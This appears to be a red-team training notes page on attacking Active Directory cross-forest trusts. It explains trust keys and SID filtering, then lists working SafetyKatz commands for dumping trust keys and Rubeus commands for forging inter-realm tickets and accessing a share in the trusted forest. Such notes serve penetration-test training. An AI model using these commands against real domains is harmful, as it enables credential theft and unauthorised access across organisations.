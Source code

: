 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Forest

In a cross-forest Active Directory environment, the mechanics of trust relationships mirror those of cross-domain trusts. However, while cross-domain trust relationships are implicit within a forest, **cross-forest trusts must be explicitly configured by administrators**. This deliberate configuration allows two separate forest roots to authenticate users and resources across organizational boundaries.

Trust tickets operate in the same way in forest trusts as they do between domains. If Domain Admin or Enterprise Admin access is obtained on one forest root, it becomes possible to impersonate similarly privileged users in the trusted forest, assuming the trust relationship permits it and the conditions are met.

A critical difference lies in the trust key management. Unlike domain trust keys, which rotate automatically (typically every 30 days), **the key used in a forest trust remains static unless manually changed**. This makes it an attractive target for long-term persistence, especially when combined with ticket forging techniques.

To defend against privilege escalation across forest boundaries, Active Directory implements **SID filtering**. This mechanism **strips certain well-known SIDs from tickets issued across a forest trust**. Specifically, SIDs in the range typically associated with built-in privileged groups (e.g., Domain Admins starting at RID 500 and Domain Controllers at 1000) are filtered out. As a result, attempts to embed these SIDs into a forged ticket from a foreign forest will be blocked by default.

<figure><img src="../../../.gitbook/assets/cross-forest-trusts.png" alt=""><figcaption></figcaption></figure>

However, this filtering can be bypassed if misconfigurations exist—especially when high-privileged groups are custom-created and assigned SIDs outside the filtered range. This scenario often arises in environments where administrators create new groups with elevated permissions but do not consider how SID filtering might interact with these roles. If a forest trust exists, there is usually a reason for it, and that reason often introduces risk if not properly managed.

{% tabs %}
{% tab title="1. Trust Key " %}
To exploit such a trust, the first step is extracting the forest trust key (rc4):

```powershell
.\SafetyKatz.exe "lsadump::trust /patch"
.\SafetyKatz.exe "lsadump::lsa /patch"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"
```
{% endtab %}

{% tab title="2. TGT" %}
Once the trust key is obtained, it can be used to forge a cross-realm TGT (`krbtgt/domain`):

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
With the TGT in hand, a TGS request can be issued for a service in the trusted forest (e.g. HTTP, CIFS, etc.) on the target host:

{% code overflow="wrap" %}
```powershell
# TGS Request using the forged TGT
\Rubeus.exe asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
>dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```
{% endcode %}
{% endtab %}
{% endtabs %}

While **enumeration of external forests via service tickets is noisy and easily detected**, it remains the **only practical method for mapping trust paths** in a red team engagement without direct access to forest-wide enumeration tools.
